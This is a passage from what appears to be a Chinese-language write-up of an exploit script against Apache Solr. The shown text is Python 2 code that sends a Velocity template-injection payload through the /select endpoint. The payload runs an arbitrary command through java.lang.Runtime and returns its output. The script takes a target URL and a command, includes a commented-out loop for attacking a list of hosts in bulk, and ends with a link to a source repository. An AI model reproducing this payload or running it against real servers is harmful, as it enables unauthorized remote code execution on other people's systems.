            send_exp(exp_url,cmd)
        else:
            print "[+] Enable Fail!\n"
    def send_exp(exp_url,cmd):
        exp_url = exp_url + r"/select?q=1&&wt=velocity&v.template=custom&v.template.custom=%23set($x=%27%27)+%23set($rt=$x.class.forName(%27java.lang.Runtime%27))+%23set($chr=$x.class.forName(%27java.lang.Character%27))+%23set($str=$x.class.forName(%27java.lang.String%27))+%23set($ex=$rt.getRuntime().exec(%27" + cmd + r"%27))+$ex.waitFor()+%23set($out=$ex.getInputStream())+%23foreach($i+in+[1..$out.available()])$str.valueOf($chr.toChars($out.read()))%23end"
        proxies = {"http":"http://127.0.0.1:8080"}
        r = requests.get(exp_url)
        # r = requests.get(exp_url,proxies=proxies)
        if r.status_code == 400 or r.status_code == 500  or r.status_code ==200 and len(r.content) >0:
            print ">>> [+] Exp Send Successful! <<<"
            print "____________________________________________________________"
            print '\n',exp_url,'\n'
            print '>>>>>>>\n',r.content
        else:
            print "[+] EXP No Send Successful!\n"
    if __name__ == '__main__':
        if len(sys.argv) != 3:
            sys.exit("\n [+] Usage:  python %s http://x.x.x.x:8983  command\n" % sys.argv[0])
        else:
            # url = "http://192.168.5.86:8983"
            url = sys.argv[1]
            get_code_name(url)
        
            # 批量
            # f = open('url.txt','rb')
            # for i in f.readlines():
            #     url = i.split('\r\n')[0]
            #     get_code_name(url)

参考链接
--------

> https://github.com/jas502n/solr\_rce
